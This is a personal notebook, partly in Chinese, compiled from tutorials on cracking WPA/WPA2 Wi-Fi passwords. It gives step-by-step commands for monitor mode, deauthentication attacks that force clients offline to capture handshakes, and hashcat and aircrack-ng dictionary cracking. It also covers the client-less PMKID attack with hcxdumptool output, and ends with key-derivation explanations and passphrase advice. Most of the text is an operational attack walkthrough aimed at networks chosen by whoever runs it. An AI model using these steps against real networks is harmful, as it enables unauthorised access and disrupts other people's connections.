# [Wifi_Hacking](https://bbs.ichunqiu.com/thread-21342-1-1.html)
## Problems
## a video('kali linux airmod-ng + hashcat.mp4')
## Through Capturing the `hccapx` file
### 一. 抓包
0. 为了保证aircrack套件在运行的时候不被其他进程所干扰,我们需要先执行以下命令
`airmon-ng check kill`

1. 首先开启网卡的监听模式
可以看到,当前网卡默认还处在管理模式,这时我们需要手动将其变成监听模式,这样才能进行正常的抓包
`iwconfig` 使用此命令可查看无线网卡的当前工作模式

`airmon-ng start 网卡接口(wlan0)`

如果在运行此命令后为发现interface，则说明现有无线网卡不支持监听模式，需要购买支持监听模式的网卡如RTL8187等。

执行成功之后网卡接口变为wlan0mon；可以使用ifconfig命令查看。
`iwconfig` 再次查看无线网卡工作模式是否真的已经改过来了

另外,你的无线网卡在启动监听模式以后,网卡接口名称就变成了wlan0mon,以后只要是在aircrack套件中需要指定网卡接口名称的,都要用这个名字,在老版本的aircrack中默认名称是mon0,而新版本则统一变成了wlan0mon
Monitoring mode allows you to capture packets without being connected to an access point/WiFi router. Also keep in mind the name of your interface will probably change when you turn monitoring mode on. You can confirm this by using ifconfig again. My interface changes to “wlan0mon”.
2. 扫描附近无线情况
开始扫描时会下面会显示哪些有客户端连接，这个时候按`Ctrl+C`会保留这个信息，方便后面的`aireplay-ng`，也可以在运行的过程中按鼠标的中键，或者滚动鼠标滚轮试试。
扫描完成之后要用Ctrl+C停止，不然后面`airodump-ng`抓包时会出现信道一直跳来跳去`fixed channel`。
有时候扫描的列表太少，需要重新插拔网卡，重新启动监听模式才行，得扫描出很多才是正常的。
    * output files
        `sudo airodump-ng -w ~/mnt/hgfs/J/hashcat-5.0.0/office_20181212 wlan0mon`
        `cdutboy@ubuntu:~$ ls office*`
        `office_20181212-01.cap  office_20181212-01.csv  office_20181212-01.kismet.csv  office_20181212-01.kismet.netxml`
        open the office_20181212-01.csv to see the scan results
    * Interaction
        * [a]: Select active areas by cycling through these display options: AP+STA; AP+STA+ACK; AP only; STA only
        * [d]: Reset sorting to defaults (Power)
        * [i]: invert sorting algorithm
        * [m]: Mark the selected AP or cycle through different colors if the selected AP is already marked
        * [r]: (De-)Active realtime sorting-applies sorting algorithm everytime the display will be redrawn
        * [s]: Change column to sort by, which currently includes: First seen; BSSID; PWR level; Beacons; Data packets; Channel; Max data rate; Encryption; Strongest Ciphersuite; Strongest Authentication; ESSID
        * [SPACE]: Pause display redrawing/resume redrawing
        * [TAB]: Enable/Disable scrolling through AP list
        * [UP]: Select the AP prior to the currently marked AP in the displayed list if available
        * [DOWN]: Select the AP after the currently marked AP if available
The next thing you want to do is “listen” with airodump-ng, and note a few pieces of information.
After running this command you will see a dynamic table of access points/routers. The top of the table should look something like this.
,一切准备就绪之后,我们开始尝试扫描附近的无线接入点,找个有客户端在线的再单独监听,一定要注意,”目标无线必须要有客户端在线”,否则是抓不到包的,这也是整个无线破解最核心的地方,因为我们要把对方的某个在线客户端蹬掉线,才能截获他的握手包
`airodump-ng wlan0mon`

我们要测试的wifi名称是YJS，我用我的手机连上去，有设备就好抓握手包了。我们想办法让我的手机掉线，然后再重新连接时抓取握手包，跑包就可以了。
You will want to find the WiFi network you wish to target under the “ESSID” column. Once you see it you can hit the “ctrl” and “C” keys together on your keyboard to stop listening and freeze what is currently on the screen. The things you want to note from the row that corresponds to your target would be the following:

 * BSSID– This is the MAC address of the AP/Router. Copy/paste/write down this elsewhere for now.
 * PWR– If you are too far away from the AP/router you may have a tough time in the next step which is the most important step of all. If PWR = -1 you will have to do some research as to the issues you may come upon. Otherwise -2 through -80ish should be ok. Keep in mind that -2 would mean you have a much better signal than -80. The closer you are to the target AP/router the better chance you have of capturing the 4-way handshake in the next steps. Your options for getting better signal strength would be physically getting closer, or finding a wifi adapter or card that supports longer distances.
 * \#Data– This isn’t super important but I like to pay attention to it. If you see the number under data growing, it’s a good indicator that you will be able to capture the handshake more easily as there are connected clients passing traffic.
 * CH– This is the channel of the network. Copy/paste this elsewhere for now.
 * ENC– For this tutorial you should be testing against a network with “WPA2” listed.
3. 单独监听目标wifi，准备抓取握手包
单独监听目标无线热点,注意这里在监听目标无线的过程中不要断开,直到整个抓包过程完成为止,接下来要做的事情就是等待客户端上线,然后进行抓包,例如,下面就表示有一个客户端在线,其实,抓握手包的原理就是先把这个在线的用户给蹬掉线,然后再截获它的握手包,而这个包里就有我们想要的无线密码
 * `airodump-ng --bssid DC:EE:06:96:B7:B8 -c 6 -w sec wlan0mon` 监听目标无线,并把截获到的数据写到指定文件中
     
 * `airodump-ng --bssid EC:26:CA:33:E1:B6 -c 6 -w testap wlan0mon`
   参数说明： --bssid 目标AP MAC
   -c 目标AP所在信道
   -w 握手包保存的文件名
   
 * `airodump-ng -c 6 --bssid C8:3A:35:30:3E:C8 -w ~/ wlan0mon`
  
 * `airodump-ng ––bssid  00:00:00:00:00:00 ––channel 11 -w /root/handshakefile -o pcap wlan0mon`
    Okay, now you have the proper bits of information so you can run airodump again, but this time have it only listen to the network you specify for a 4-way handshake. The 4-way handshake contains the data needed to reverse-engineer the encrypted password. You also tell airodump what to name the output from the captured data.  Replace 00:00:00:00:00:00 with the BSSID you collected in the last step. Replace 11 with CH you collected in the last step. After -w type the path to where you want the handshake capture saved, as well as the name of it (/folder/desired_filename). The “-o pcap” just tells airodump to give us the file in the .cap format which we can use in later steps.
Now you will see a similar table to the one you saw in the last step, but this time you should notice a few differences. The first difference is that only your target network should show up now. You may also notice an additional table underneath that. It will look similar to this.
This lower table shows client devices that are connected to your target AP/Router. Ideally you will have a few options to choose from. From this table you want to note a couple of things. Be sure to keep this running for now.
 * PWR– If you have options, you want to go with the client that has a better signal (-35 being much better than -80).
 * Frames– A client with a high frame count is another good option. The higher frame count is usually an indication that wireless traffic is flowing pretty good from the client.
 * STATION – This is the MAC address of the client device. Note this down, in the next step we are going to trick the client into re-negotiating it’s connection with the access point.
If the network you are listening to is very busy you may not need to do this next step at all. Essentially at this point as mentioned before we are waiting to snag a copy of the 4-way handshake which happens when a client authenticates to an AP/router. Sometimes this will be captured simply by listening for long enough. On a very busy network, this may happen within a few minutes or faster. If you get a handshake before completing the next step with “aireplay” you can skip it and move on to “Step 2: Prep the .cap for Hashcat”.
???fixed channel always changing???
channel is fixed by using alfa awus036nh adapter
4. 使用DEAUTH攻击使已经连接的客户端断开并重新连接，以产生握手包(用minidwep-gtk长时间一般也可以抓到包）
For this example let’s say you are on a network that’s not very busy, and devices typically stay connected to the wireless network for days at a time or longer. Instead of waiting for an undetermined amount of time for a connection to happen so we can capture it, we can force it to happen (usually). So let’s go ahead and do that. We are going to “DEAUTH” the client we noted in the last step (STATION) using aireplay.
??? `aireplay` and `mdk3` will cause ubuntu crash, or the `airodump-ng` causes it.???
发现客户端在线稳定后,就可以向目标发射’ddos’流量了,直到我们在监听的终端下看到有握手包出现为止,如果第一轮包发完成后,并没看到握手包,别着急,先等个几十秒,或者隔个五六秒再发一次即可,正常情况下,基本一次就能搞定
通过aireplay-ng的工具，它可以强制用户断开wifi连接；原理是，给连接到wifi的一个设备发送一个deauth（反认证）包，让那个设备断开wifi，随后它自然会再次连接wifi。
 * `aireplay-ng -0 10 -a EC:26:CA:33:E1:B6 -c C0:EE:FB:E9:9D:7C mon0` (此种方法在虚拟机上运行时会造成系统崩溃，用ALFA AWUS036NH网卡不会）
     有时候运行完这个命令需要等一下，才会有成功的handshake，可能是客户端需要重新连接
  参数解释： -0 Deautenticate攻击模式 0代表无限次（是数字）
  -a 目标ap的mac
  -c 客户端网卡mac
  发起攻击后我们可以看到客户端的帧（Frames）迅速增加
  
  得到的握手包：
  
 * `sudo mdk3 mon0 d -n B8:F8:83:76:92:69 -c 9` ([install & use mdk3](#mdk3))
    运行完这个命令出现`Network is down`之后马上在minidwep上点“Launch”即可抓到包。
    比如你要用mdk3 mon0 d -c 命令:
    那就要先添加黑名单或者白名单，-c后面是信道，添加白名单的话不会攻击白名单mac或者添加黑名单mac只攻击这个ssid
    如`echo mac地址 > withelist`
    `mdk3 mon0 d -w withelist -c 11`，这样信道11的ssid除了白名单外都会被攻击
    此方法也适用于reaver一直重复一个pin情况，可以让客户端重启路由器。
 * `aireplay-ng --deauth 15 -a DC:EE:06:96:B7:B8 wlan0mon`
     
     可以看到,这时握手包已被正常抓获,此时监听也就可以断开了,注意观察终端的右上角,那个带有handshake标志的就是握手包的意思
     
 * `aireplay-ng -a 00:00:00:00:00:00 -c 11:11:11:11:11:11 ––deauth 1 wlan0mon`
     Keep the airodump window running in the background and open a new terminal. Type the following. Replace 00:00:00:00:00:00 with the BSSID and replace 11:11:11:11:11:11 with the MAC address you collected from STATION in the last step.

What you want to do now is watch for 2 things.
 * In the aireplay window you will get some responses from your command. The information you want to see from the response is the ACK’s. You want the number in front of the “|” to be higher than 0. This will indicate the client received your deauth packets. If you get 0, try sending the command again.
    * Good
        
    * Bad
        
 * In the airodump window you are looking for confirmation that a handshake was captured. You will most likely see the STATION disappear after you send the deauth. When it shows back up, odds are a handshake will be captured. It should show up on the top line furthest to the right when you do capture it.
    
 * Other things you can try are deauth a different client/STATION or keep waiting for a new connection to happen. I’ve had situations where the handshake was captured in seconds, and other times where it took closer to an hour of waiting for STATIONS to show up while I sent deauths, and/or waited for a handshake to come in….. hypothetically that is…. =)
Once you ensure you have the .cap file where you told airdump to put it (directory and filename you configured with the “-w” option) you can close airodump and aireplay.

5. 抓包成功后ctrl+C即可结束抓包。
停止监听模式
`airmon-ng stop wlan0mon`
#### SSID, BSSID and ESSID
[Understanding the Network Terms SSID, BSSID, and ESSID](https://www.juniper.net/documentation/en_US/junos-space-apps/network-director2.0/topics/concept/wireless-ssid-bssid-essid.html)
[Differences between BSSID, ESSID and SSID](https://www.cwnp.com/forums/posts?postNum=288444)
An xSSID is an identifier of either a network by name or a radio by MAC address.
BSSID is the MAC address of the AP's radio for that service set.
SSID is the service set identifier or network name for the basic service set(BSS).
ESSID is the same as the SSID but is used across multiple access points as part of the same WLAN.
### 二. 把cap转换成hccap
* 用aircrack-ng
`aircrack-ng <out.cap> -J <out.hccap>`
这个就不用细说了吧，第一个是cap第二个是转换后得到的hccap文件。

* https://hashcat.net/cap2hccapx/
* cap2hccapx
    * install
        `cd ~`
        `wget https://raw.githubusercontent.com/hashcat/hashcat-utils/master/src/cap2hccapx.c`
        `gcc cap2hccapx.c`
        `mv <out_file> /bin/cap2hccapx`
        `rm cap2hccapx.c`
    * usage
        `cap2hccapx input.pcap output.hccapx [filter by essid] [additional network essid:bssid]`
### 三. 跑包
在我们抓获握手包以后,接下来的事情就非常简单了,你可以直接用aircrack加载弱口令字典进行爆破,当然,个人是十分不建议用字典(效率,实用性,太低,过于浪费时间),推荐大家直接把包处理一下丢给hashcat或者某宝去跑就行了
* `aircarck-ng -a 2 -b C8:3A:35:30:3E:C8 -w /usr/share/wordlists/rockyou.txt ~/*.cap`
    * -a2代表WPA的握手包
    * -b指定要破解的wifi BSSID。
    * -w指定字典文件
    * 最后是抓取的包
        
    利用aircrack加载字典进行爆破,反正我自己很少用,基本没用过,先不说速度如何,关键还是看你的字典是否靠谱,实际测试中,个人并不建议用,因为根本没有靠谱性可言,因为这里仅仅是测试,实际渗透中,哪有太多的时间让你去跑[比如,实地渗透]
* `hashcat -m 2500 testap.hccapx pass.txt`
使用hashcat命令，第一个参数： -m 2500为破解的模式为WPA/PSK方式 ，第二个参数： hccap格式的文件是刚刚转化好的文件， 第三个参数：pass.txt为字典文件 :
新版的hashcat要用`.hccapx`格式，可以在`https://hashcat.net`里convert

破解的结果：

## A new attack on WPA/WPA2 using PMKID

A new technique has been discovered to easily retrieve the Pairwise Master Key Identifier (PMKID) from a router using WPA/WPA2 security, which can then be used to crack the wireless password of the router. While previous WPA/WPA2 cracking methods required an attacker to wait for a user to login to a wireless network and capture a full authentication handshake, this new method only requires a single frame which the attacker can request from the AP because it is a regular part of the protocol.
This new method was discovered by Jens "atom" Steube, the developer of the popular Hashcat password cracking tool, when looking for new ways to crack the WPA3 wireless security protocol. According to Steube, this method will work against almost all routers utilizing 802.11i/p/q/r networks with roaming enabled.
This method works by extracting the RSN IE (Robust Security Network Information Element) from a single EAPOL frame. The RSN IE is a optional field that contains the Pairwise Master Key Identifier (PMKID) generated by a router when a user tries to authenticate.
The PMK is part of the normal 4-way handshake that is used to confirm that both the router and client know the Pre-Shared Key (PSK), or wireless password, of the network. It is generated using the following formula on both the AP and the connecting client:
"The PMKID is computed by using HMAC-SHA1 where the key is the PMK and the data part is the concatenation of a fixed string label "PMK Name", the access point's MAC address and the station's MAC address." stated Steube's post on this new method.
`PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)`

Previous WPA/WPA2 crackers required an attacker to patiently wait while listening in on a wireless network until a user successfully logged in. They could then capture the four-way handshake in order to crack the key.
"With any previous attacks on WPA an attacker has to be in a physical position that allows them to record the authentication frames from both the access point and the client (the user)," Steube told BleepingComputer. "The attacker also has to wait for a user to login to the network and have a tool running in that exact moment to dump the handshake to disk."
Now an attacker simply has to attempt to authenticate to the wireless network in order to retrieve a single frame in order to get access to the PMKID, which can then be cracked to retrieve the Pre-Shared Key (PSK) of the wireless network.
It should be noted that this method does not make it easier to crack the password for a wireless network. It instead makes the process of acquiring a hash that can can be attacked to get the wireless password much easier.
While Steube's new method makes it much easier to access a hash that contains the pre-shared key that hash still needs to be cracked. This process can still take a long time depending on the complexity of the password.
Unfortunately, many users do not know how to change their wireless password and simply use the PSK generated by their router. 
"In fact, many users don't have the technical knowledge to change the PSK on their routers," Steube told BleepingComputer. "They continue to use the manufacturer generated PSK and this makes attacking WPA feasible on a large group of WPA users."
As certain manufacturers create a PSK from a pattern that can easily be determined, it can be fed into a program like Hashcat to make it easier to crack the wireless password.
"Cracking PSKs is made easier by some manufacturers creating PSKs that follow an obvious pattern that can be mapped directly to the make of the routers. In addition, the AP mac address and the pattern of the ESSID  allows an attacker to know the AP manufacturer without having physical access to it," Steube continued to tell us via email.  "Attackers have collected the pattern used by the manufacturers and have created generators for each of them, which can then be fed into hashcat. Some manufacturers use pattern that are too large to search but others do not. The faster your hardware is, the faster you can search through such a keyspace. A typical manufacturers PSK of length 10 takes 8 days to crack (on a 4 GPU box)."

In this short blog, I will walk you through the process of obtaining a valid PMKID packet, and converting those frames of data to hashcat format for cracking. This is a new way to recover the WPA2-PSK passphrases from vulnerable devices, that doesn’t require station <->client interaction or a 4-way handshake.
In this writeup, I'll describe a new technique to crack WPA PSK (Pre-Shared Key) passwords.
In order to make use of this new attack you need the following tools:
* [hcxdumptool v4.2.0 or higher](https://github.com/ZerBea/hcxdumptool)
    * `git clone https://github.com/ZerBea/hcxdumptool`
    * `make`
    * `sudo make install`
* [hcxtools v4.2.0 or higher](https://github.com/ZerBea/hcxtools)
    * `git clone https://github.com/ZerBea/hcxtools`
    * `make`
    * `sudo make install`
    * run `sudo apt-get install libcurl4-openssl-dev libssl-dev zlib1g-dev libpcap-dev` for requirements
    * run `sudo apt install libcurl4-openssl-dev` when prompted with "fatal error: curl/curl.h: No such file or directory" when run `run`
* [hashcat v4.2.0 or higher](https://github.com/ZerBea/hcxdumptool)
This attack was discovered accidentally while looking for new ways to attack the new WPA3 security standard. WPA3 will be much harder to attack because of its modern key establishment protocol called "Simultaneous Authentication of Equals" (SAE).
The main difference from existing attacks is in this attack, capture of a full EAPOL 4-way handshake is not required. The new attack is performed on the RSN IE (Robust Security Network Information Element) of a single EAPOL frame.
At this time, we do not know for which vendors or for how many routers this technique will work, but we think it will work against all 802.11i/p/q/r networks with roaming functions enabled (most modern routers).
The main advantages of this attack are as follow:
* No more regular users required - because the attacker directly communicates with the AP (aka "client-less" attack)
* No more waiting for a complete 4-way handshake between the regular user and the AP
* No more eventual retransmissions of EAPOL frames (which can lead to uncrackable results)
* No more lost EAPOL frames when the regular user or the AP is too far away from the attacker
* No more fixing of nonce and replaycounter values required (resulting in slightly higher speeds)
* No more special output format (pcap, hccapx, etc.) - final data will appear as regular hex encoded string
### [Understanding](https://www.ins1gn1a.com/understanding-wpa-psk-cracking/)
#### Intro
The few weaknesses inherent within the authentication handshake process for WPA/WPA2 PSKs have been known for a long time. This blog post does not serve anything that is new or has not been previously seen in the wild or conference talks and actually references other sites (such as RFCs) that can supply further information. It does, however, provide some clarity in to what is actually performed during the authentication and thus cracking process, but was mainly an exercise for me to learn how everything works at a lower level. Perhaps it will be useful to someone else in the same scenario.
#### Overview
During the authentication process the supplicant (client) and authenticator (access point) each attempt to prove that they independently know the pre-shared-key (PSK) passphrase without disclosing the key directly. This is done by each encrypting a message using the Pairwise-Master-Key (PMK) that they have generated, transmitting each way, and then decrypting the message they've each received. The four-way handshake is used to establish a new key called the Pairwise-Transient-Key (PTK), which is comprised of the following concatenated data:
* Pairwise Master Key
* Authenticator Nonce
* Supplicant Nonce
* Authenticator MAC Address
* Supplicant MAC Address
The result is then processed through a Pseudo-Random-Function (PRF). Another key that is used for decrypting multicast traffic, named the Group-Temporal-Key, is also created during this handshake process.
#### Actual Handshake Process
* Initially the access point transmits an ANonce key to the client within the first handshake packet.
* The client then constructs its SNonce, along with the Pairwise-Transient-Key (PTK), and then submits the SNonce and Message Integrity Code (MIC) to the access point. (At this point an attacker would have been able to intercept enough of the handshake to perform a password cracking attack.)
* Next the access point constructs the Group-Temporal-Key, a sequence number that is used to detect replay attacks on the client, and a Message Integrity Code (MIC).
* Lastly the client then sends an acknowledgement (ACK) to the access point.
#### Construction of the PMK
Pairwise-Master-Keys are used during the creation of the Pairwise-Transient-Keys and are never actually transmitted across the network. They are derived from the Pre-Shared-Keys (Enterprise WiFi uses a key created by EAP, but that is out of scope for this article) along with the other information such as SSID, SSID Length. The PMKs are created using the Password-Based Key Derivation Function #2 (PBKDF2), with the SHA1 hashing function used with HMAC as the message authentication code.:
`PMK = PBKDF2(HMAC−SHA1, PSK, SSID, 4096, 256)`
HMAC-SHA1 is the Pseudo Random Function used, whilst 4096 iterations of this function are used to create the 256 bit PMK. The SSID is used as a salt for the resulting key, and of course the PSK (passphrase in this instance) is used as the basis for this entire process.
The HMAC function used:
`H(K XOR opad, H(K XOR ipad, passphrase))`
Further information on HMAC-SHA1 from RFC2104 can be seen below, but is out of my depth:

        opad = 0x5C * B
        ipad = 0x36 * B
        (1) append zeros to the end of K to create a B byte string (e.g., if K is of length 20 bytes and B=64, then K will be appended with 44 zero bytes 0x00)
        (2) XOR (bitwise exclusive-OR) the B byte string computed in step (1) with ipad
        (3) append the stream of data 'text' to the B byte string resulting from step (2)
        (4) apply H to the stream generated in step (3)
        (5) XOR (bitwise exclusive-OR) the B byte string computed in step (1) with opad
        (6) append the H result from step (4) to the B byte string resulting from step (5)
        (7) apply H to the stream generated in step (6) and output the result
Here is a simple Python script that can be used to compute the raw key from the SSID and PSK passphrase. Within the Python module I've used (can be installed via python-pip) the default MAC and hash algorithm is HMAC-SHA1:

        #! /usr/bin/env python
        from pbkdf2 import PBKDF2
        
        ssid = raw_input('SSID: ')
        passphrase = raw_input('Passphrase: ')
        
        print ("Pairwise Master Key: " + PBKDF2(passphrase, ssid, 4096).read(32).encode("hex"))
#### Construction of the PTK
The creation of the Pairwise-Transient-Keys is performed via a another PRF (using an odd combination of SHA1, ending in a 512 bit string), which uses a combination of the PMK, AP MAC Address, Client MAC Address, AP Nonce, Client Nonce. The result is this 512 bit Pairwise-Transient-Key, which is actually a concatenation of five separate keys and values, each with their own purpose and use:

* Key Confirmation Key (KCK) - Used during the creation of the Message Integrity Code.
* Key Encryption Key (KEK) - Used by the access point during data encryption.
* Temporal Key (TK) - Used for the encryption and decryption of unicast packets.
* MIC Authenticator Tx Key (MIC Tx) - Only used with TKIP configurations for unicast packets sent by access points.
* MIC Authenticator Rx Key (MIC Rx) - Only used with TKIP configurations for unicast packets sent by clients.
The resulting order:

        - 128 bits -.- 128 bits -.- 128 bits -.- 64 bits -.- 64 bits -
        |    KCK    |     KEK    |     TK     |  MIC Tx   |   MIC Rx  |
The only reference to a usable PRF512 function within Python was an excerpt of code from a question on Stack Overflow from back in 2012:

        def customPRF512(key,A,B):
            blen = 64
            i    = 0
            R    = ''
            while i<=((blen*8+159)/160):
                hmacsha1 = hmac.new(key,A+chr(0x00)+B+chr(i),hashlib.sha1)
                i+=1
                R = R+hmacsha1.digest()
            return R[:blen]
Some sample code just to get a visualisation of what happens in the background:

        #! /usr/bin/env python
        
        import hmac,hashlib,binascii,sha
        from pbkdf2 import PBKDF2
        
        def customPRF512(key,A,B):
            blen = 64
            i    = 0
            R    = ''
            while i<=((blen*8+159)/160):
                hmacsha1 = hmac.new(key,A+chr(0x00)+B+chr(i),hashlib.sha1)
                i+=1
                R = R+hmacsha1.digest()
            return R[:blen]
        
        ssid = raw_input('SSID: ')
        passphrase = raw_input('Passphrase: ')
        ap_mac = binascii.a2b_hex(raw_input("AP MAC: "))
        s_mac = binascii.a2b_hex(raw_input("Client MAC: "))
        anonce = binascii.a2b_hex(raw_input("ANonce: "))
        snonce = binascii.a2b_hex(raw_input("SNonce: "))
        
        key_data = min(ap_mac,s_mac) + max(ap_mac,s_mac) + min(anonce,snonce) + max(anonce,snonce)
        pke = "Pairwise key expansion"
        key_data = min(ap_mac,s_mac) + max(ap_mac,s_mac) + min(anonce,snonce) + max(anonce,snonce)
        
        pmk = PBKDF2(passphrase, ssid, 4096).read(32)
        ptk = customPRF512(pmk,pke,key_data).encode('hex')
        
        print ("\nPMKey: " + pmk)
        print ("PTKey: " + ptk)
        print ("KCK: " + ptk[0:16])
The PMK and PTK are then printed to the terminal, with the first 16 bytes of the PTK being the KCK.
#### What is actually computed for cracking?
#### Conclusions
If anything, knowing the amount of computation that is performed for each attempt at comparing the MICs puts me at somewhat ease regarding the security of using PSK auth on personal networks, however it does prove how invaluable random passphrases are within various cryptographic implementations such as this, especially passphrases that are longer and contain more entropy. Use a 15 character passphrase for your PSK, which includes a combination of upper and lower alpha, numeric, and special characters, which isn't a dictionary word. Oh, and also change it regularly. If I or anyone else happen to crack your passphrase, then an attacker wouldn't get much use of it is void should they go back there in a months time can't connect because it's changed to a new value.
More importantly, don't use PSK authentication for your corporate networks. Whilst there are some vulnerabilities within certain EAP configurations they are a lot easier to squash than an offline attack such as what is capable against PSKs.
If any of the aforementioned information is incorrect please feel free to drop me an email and I'll make the necessary amendments and credit appropriately.
### Supported adapters (strict)
* USB ID 148f:7601 Ralink Technology, Corp. MT7601U Wireless Adapter
* USB ID 148f:3070 Ralink Technology, Corp. RT2870/RT3070 Wireless Adapter
* USB ID 148f:5370 Ralink Technology, Corp. RT5370 Wireless Adapter
* USB ID 0bda:8187 Realtek Semiconductor Corp. RTL8187 Wireless Adapter
* USB ID 0bda:8189 Realtek Semiconductor Corp. RTL8187B Wireless 802.11g 54Mbps Network Adapter
Out of all the cards mentioned, in my preliminary testing I found the older AWUS036H card I bought in 2012 to work the best.

Both Alfa USB devices work well. Preliminary results show better performance, with the AWUS036H . I was able to obtain multiple PKMID frames within seconds sometimes from a vulnerable access point . The older Alfa AWUS036H is a also a more powerful card and works better with nosier conditions.

        root@ubuntu:~# lsusb
        --- snip ---
        Bus 003 Device 016: ID 0bda:8187 Realtek Semiconductor Corp. RTL8187 Wireless Adapter
        
        --- snip ---
Walk-through:

        # ip link set wlx00c0ca59f4b2 down
        # iw dev wlx00c0ca59f4b2 set type monitor
        # rfkill unblock all
        # ip link set wlx00c0ca59f4b2 up
        ./hcxdumptool -i wlx00c0ca694df2 --enable_status -c 6 -o E4200-WPA2PSK.pcapng
        --
        [15:18:14 - 006] c0c1c04bfc68 -> e4209b5662d3 [FOUND AUTHORIZED HANDSHAKE, EAPOL TIMEOUT 3605]
        [15:18:16 - 006] c0c1c04bfc68 -> fcc2330136c6 [FOUND PMKID]
        --
        # ./hcxpcaptool -z E4200-WPA2PSK.16800 E4200-WPA2PSK.pcapng                                                                                                       
        start reading from E4200-WPA2PSK.pcapng                                                                                                                                                 
                                                                                                                                                                                                               
        summary:                                                                                                                                                                                               
        --------                                                                                                                                                                                               
        file name....................: E4200-WPA2PSK.pcapng                                                                                                                                                    
        file type....................: pcapng 1.0                                                                                                                                                              
        file hardware information....: x86_64                                                                                                                                                                  
        file os information..........: Linux 4.13.0-46-generic                                                                                                                                                 
        file application information.: hcxdumptool 4.2.0                                                                                                                                                       
        network type.................: DLT_IEEE802_11_RADIO (127)                                                                                                                                              
        endianess....................: little endian
        file os information..........: Linux 4.13.0-46-generic
        file application information.: hcxdumptool 4.2.0
        network type.................: DLT_IEEE802_11_RADIO (127)
        endianess....................: little endian
        read errors..................: flawless
        packets inside...............: 129
        skipped packets..............: 0
        packets with FCS.............: 67
        beacons (with ESSID inside)..: 2
        probe requests...............: 2
        probe responses..............: 4
        association requests.........: 13
        association responses........: 26
        authentications (OPEN SYSTEM): 70
        authentications (BROADCOM)...: 14
        EAPOL packets................: 12
        EAPOL PMKIDs.................: 1
        best handshakes..............: 1 (ap-less: 0)
Results:

        1 PMKID(s) written to E4200-WPA2PSK.16800
        # cat E4200-WPA2PSK.16800 
        b0b606458a7945cf7c80b7fefe390506*c0c1c04bfc68*fcc2330136c6*436973636f3136383934
Details to be noted:
Ensure you specify the correct channel when passing that value to “-c” to the Access Point you are targeting.
### Attack details
The RSN IE is an optional field that can be found in 802.11 management frames. One of the RSN capabilities is the PMKID.

The PMKID is computed by using HMAC-SHA1 where the key is the PMK and the data part is the concatenation of a fixed string label "PMK Name", the access point's MAC address and the station's MAC address.
`PMKID=HMAC-SHA1-128(PMK,"PMK Name"|MAC_AP|MAC_STA)`
Since the PMK is the same as in a regular EAPOL 4-way handshake this is an ideal attacking vector.
We receive all the data we need in the first EAPOL from the AP.

### Experience
* By using `hcxdumptool`, PMKID can be found from some routers (e.g. china union router CU_XXXX), but cannot be found from some routers (e.g. TP-Link routers), no matter how the parameters are set.
* can get PMKIDs from all available routers by running `hcxdumptool` without `--filterlist=<filterfile>`
* 最后，对于利用PMKID破解PSK的新攻击方式，我做出如下总结：
  1. 该攻击方式并没有明显降低攻击WPA/WPA2网络的难度，依然需要字典式进行暴力破解，只是允许在无客户端情况下进行。
  2. 该攻击只对WPA-PSK/WPA2-PSK有效，对企业级802.1X认证热点（WPA-Enterprise）无效。
  3. 大部分低端家用级路由器由于不支持漫游特性，对该攻击免疫；少部分中高端路由器（往往支持802.11AC）可能受影响，用不上就关掉吧（如果可以的话）。三种获取PMKID的方法都是如此。
  4. 对于用户：依然是提高无线密码复杂度，警惕热点密码分享APP。
  5. 对于路由器厂商：对WPA-PSK考虑是否有支持漫游特性的必要，或者增加开关。
* The algorithm to generate the PMKID is of the same suit as the algorithm to generate the PMK (attack by handhsake). So there will be no noticeable difference between a handshake attack (PMK) and an attack by the "first way" EAPOL (PMKID)
* 可行的方法是用不带`--filterlist`的`hcxdumptool`来获取所有可以获取的PMKID

### Capturing the PMKIDs using `tcpdump` and Wireshark
* Start tcpdump on my interface in managed mode
* Associate with network manager by entering any key
* Open the capture with wireshark

The monitor mode allows to capture traffic between any client and any Access Point. 
The promiscuous mode only allows to capture the traffic at the access point to which we are associated. 
All the chipsets are not compatible with the monitor mode but all the chipsets work in "promiscuous mode" with the right program (wirehsark, tcpdump) 
It is another advantage with this new attack: We do not need a compatible chipset with monitor mode .. But it seems that for some this is nothing and that this is "a shit stuck in a stick"
I would like to say one thing to put things in perspective: The WPA2 and the protocols we talked about were created by the world elite in these areas. All the material manufacturers, all the development teams of the world, google etc ... have studied and applied these protocols. 
And an uncle, alone, without the help of anyone, a simple enthusiast, has put his finger on something that everyone and all these specialists have had in front of their noses for 10 years and that nobody has seen. And he has shared it without asking anything to anyone in return ... 
I prefer to stop there and not evoke what I think about the messages that I deleted yesterday in this thread because atom and its method deserve a decent thread.
From what I see, the routers that have been put in service these last 3 years in France, with a 5Ghz network and another 2.4Ghz, are vulnerable. 
Has anyone tried with your router?
* `sudo tcpdump -i <interfaz> -w ficherocaptura`
* Connect to your router with the network manager `sudo service network-manager start`
* Stop the process in console with tcpdump
* Open with wireshark the capture file that we have generated `wireshark tcpdump.capture`
* Put eapol on the wireshark top bar
* Open the EAPOL 1 (or 3) package and click on the last parameter to see if there is no PMKID
After following the steps, I can confirm that my Compal router, yes it is vulnerable a priori. At first I did not get the eapol plot, because I was not sending any key to the router, my mistake, here are the screenshots:
